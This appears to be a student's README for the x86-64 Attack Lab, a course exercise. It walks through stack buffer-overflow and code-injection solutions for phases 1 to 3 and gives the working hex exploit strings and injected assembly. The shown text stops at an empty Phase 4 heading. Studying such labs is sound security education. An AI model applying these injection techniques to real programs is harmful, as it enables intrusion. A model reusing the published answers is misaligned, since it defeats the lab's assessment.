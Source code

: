 # Attack Lab
This is an x86-64 attack lab for self-study students.

I also document what I had to do to solve this lab.

## Tools
- GDB
- objdump
- GCC

## Phase 1
This is a simple buffer overflow exploit. You can see the dump of the ctarget binary [here](./dump_ctarget.txt). We need to exploit the vulnerability in [getbuf](./dump_ctarget.txt#L777). The first instruction is the key here. `sub $0x28,%rsp` means we will need to provide 40 bytes before we can modify the return address located in the stack. In the 40th byte, we will give the address of the function [touch1](./dump_ctarget.txt#L787) in little endian format (`c0 17 40 00 00 00 00 00`). Hence, we get the following answer:
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

## Phase 2
Similar to phase 1 except we need to add the instruction to store our cookie in register `%rdi`. We need to execute few instructions before we transfer control to touch2. For this, we will need the 40-47 bytes to contain the address pointing back into the stack that stores the *buffer* (0-39 bytes from getbuf). The buffer will be modified in such a way that it will update the value of register `%rdi` (the first argument to the function), and then hand over the control to touch2. To get to the function touch2, we will use the `retq` instruction. Recall that `retq` pops the value from the stack and into the register `%rip` (register which holds the memory address to the next instruction to execute). This means we will have to push the address of touch2 into our stack. This push will modify the return address located in our stack (bytes 40-47), which will allow our exploit to safely transfer the control. The instructions we will execute will look like this:
```asm
0:	68 ec 17 40 00       	pushq  $0x4017ec           /* Push address of touch2 to stack  */
5:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi    /* Move cookie to register %rdi */
c:	c3                   	retq   
d:	90                   	nop
e:	90                   	nop
f:	90                   	nop
```

Our answer will then, look like this:
```
68 ec 17 40 00 48 c7 c7
fa 97 b9 59 c3 90 90 90
ec 17 40 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

## Phase 3
This one is also pretty simple. We need to call touch3 and store the address of our cookie string in register `%rdi`. The challenge we face are the various instructions that will overwrite our stack. Hence, we need to store the string representation of our cookie on an address which will not get overwritten. Notice how the `pushq` instruction we use in our execution code pushes data on address `0x5561dca0`. This means, all the future pushes to the stack will be on addresses starting from `0x5561dca0` and onwards. Therefore, we will store our string in the stack on address `0x5561dca8`. Our execution code will look like this:
```asm
0:	68 fa 18 40 00       	pushq  $0x4018fa
5:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
c:	c3                   	retq
```

Solution:
```
68 fa 18 40 00 48 c7 c7
a8 dc 61 55 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61 /* Our cookie's string representation */
```

## Phase 4
